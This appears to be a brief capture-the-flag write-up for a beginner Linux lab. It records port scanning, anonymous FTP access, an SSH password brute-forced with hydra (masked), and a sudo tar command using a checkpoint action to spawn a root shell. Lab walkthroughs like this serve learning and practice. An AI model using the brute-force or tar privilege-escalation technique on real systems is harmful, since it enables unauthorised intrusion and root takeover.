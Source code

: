 # Easy room to practice basic enumeration and privilege escalation in linux

## Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
## FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

## Found login and password to ssh using hydra

```
user: ***
password: *******************

```
## Found flag1: `THM{*****_*********}`

## Using sudo -l found that user can run tar as sudo 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
opens a shell as root and then found root flag under */root/root.txt*

## Found flag2:`THM{******_******}`
